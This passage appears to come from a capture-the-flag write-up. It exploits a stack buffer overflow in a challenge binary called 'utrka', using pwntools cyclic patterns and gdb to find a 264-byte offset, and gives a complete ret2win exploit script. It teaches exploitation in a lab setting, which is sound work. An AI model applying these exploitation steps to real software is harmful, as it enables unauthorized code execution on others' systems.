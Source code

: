 ```c

    for (int i = 22; i < 23;i++){
        puts(trackLines[i]);
    }
}
```

Immediately we see that `fgets` reads input 3 times and each time it reads it, it takes 
up to 101 characters and puts them into `char progress[232]`, so taking 303 chars and putting them into a char array of 232, seems like a simple [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow).

Let's run it in gdb and see what we get when we input a cyclic pattern of length 303.

Here's how we generate our cyclic pattern.
```sh
python -c "from pwn import *; print(cyclic(303).decode('utf-8'))" > pattern
```

Since the program does a little bit trolling and calls `system("clear")` it makes debugging it a little bit annoying if you don't know what you are doing. Thankfully, you can just run it like this and it should debug fine.

```bash
gdb utrka
set follow-fork-mode parent
r < pattern
```

This is the result we get:

![gdb output](https://i.imgur.com/goMMK98.png)

*Note: I am using [pwndbg](https://github.com/pwndbg/pwndbg) which is a modified version of gdb specifically made for exploit development. I highly recommend it as it's a much better experience than using regular old gdb.*


Here we can see on the last line that when it returns from main it tries to go to the address `0x6361617263616171` which is a part of our cyclic pattern, and we can find out exactly which part like this:
```bash
python -c "from pwn import *; print(cyclic_find(0x63616171))" 
264
```

We need to put 264 characters of padding before we can overwrite the return address. 


Now let's try to do a [ret2win](https://book.hacktricks.xyz/binary-exploitation/stack-overflow/ret2win).

```python
from pwn import *

elf = ELF('./utrka')

payload = b'A' * cyclic_find(0x63616171)
payload += p64(elf.symbols['win'])

p = process('./utrka')
p.sendline(payload)
p.interactive()
```
